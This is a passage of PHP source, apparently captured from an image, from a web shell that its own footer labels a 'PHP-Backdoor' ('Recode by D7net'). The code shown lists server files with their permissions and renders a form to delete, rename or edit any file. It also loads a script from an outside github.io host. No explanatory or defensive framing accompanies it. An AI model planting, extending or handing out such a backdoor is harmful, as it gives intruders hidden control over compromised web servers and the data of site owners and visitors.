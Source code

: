         $size = round($size, 3);
        if ($size >= 1024) {
            $size = round($size / 1024, 2) . ' MB';
        } else {
            $size = $size . ' KB';
        }
        echo "<tr><td><img src='https://img.icons8.com/external-kmg-design-outline-color-kmg-design/2x/external-file-web-hosting-kmg-design-outline-color-kmg-design.png' alt='Smiley face' width='25' heght='25'></td><td><a href=\"?filesrc=$path/$file&path=$path\">$file</a></td><td><center>" . $size . "</center></td><td><center>File</center></td><td><center>";
        if (is_writable("$path/$file"))
            echo '<font color="#00ff00">';
        elseif (!is_readable("$path/$file"))
            echo '<font color="red">';
        echo perms("$path/$file");
        if (is_writable("$path/$file") || !is_readable("$path/$file"))
            echo '</font>';
        echo "</center></td><td><center>" . date("d-M-Y H:i", filemtime("$path/$file")) . "";
        echo "</center></td><td><center><form method=\"POST\" action=\"?option&path=$path\"><select name=\"opt\"><option value=\"\"></option><option value=\"delete\">Delete</option><option value=\"rename\">Rename</option><option value=\"edit\">Edit</option></select><input type=\"hidden\" name=\"type\" value=\"file\"><input type=\"hidden\" name=\"name\" value=\"$file\"><input type=\"hidden\" name=\"path\" value=\"$path/$file\"><input type=\"submit\" value=\"&#x276F;\" /></form></center></td></tr>";
    }
    echo '</table></div>';
}
function perms($file)
{
    $perms = fileperms($file);
    if (($perms & 0xC000) == 0xC000) {
        $info = 's';
    } elseif (($perms & 0xA000) == 0xA000) {
        $info = 'l';
    } elseif (($perms & 0x8000) == 0x8000) {
        $info = '-';
    } elseif (($perms & 0x6000) == 0x6000) {
        $info = 'b';
    } elseif (($perms & 0x4000) == 0x4000) {
        $info = 'd';
    } elseif (($perms & 0x2000) == 0x2000) {
        $info = 'c';
    } elseif (($perms & 0x1000) == 0x1000) {
        $info = 'p';
    } else {
        $info = 'u';
    }
    $info .= (($perms & 0x0100) ? 'r' : '-');
    $info .= (($perms & 0x0080) ? 'w' : '-');
    $info .= (($perms & 0x0040) ? (($perms & 0x0800) ? 's' : 'x') : (($perms & 0x0800) ? 'S' : '-'));
    $info .= (($perms & 0x0020) ? 'r' : '-');
    $info .= (($perms & 0x0010) ? 'w' : '-');
    $info .= (($perms & 0x0008) ? (($perms & 0x0400) ? 's' : 'x') : (($perms & 0x0400) ? 'S' : '-'));
    $info .= (($perms & 0x0004) ? 'r' : '-');
    $info .= (($perms & 0x0002) ? 'w' : '-');
    $info .= (($perms & 0x0001) ? (($perms & 0x0200) ? 't' : 'x') : (($perms & 0x0200) ? 'T' : '-'));
    return $info;
}
echo '<br><center>&copy; <span id="footer"></span> 2018. | Recode by D7net</center><br>';
echo '<script type="text/javascript" src="//zerobyte-id.github.io/PHP-Backdoor/inc/footer.js"></script>';
echo '</body></html>';
?>
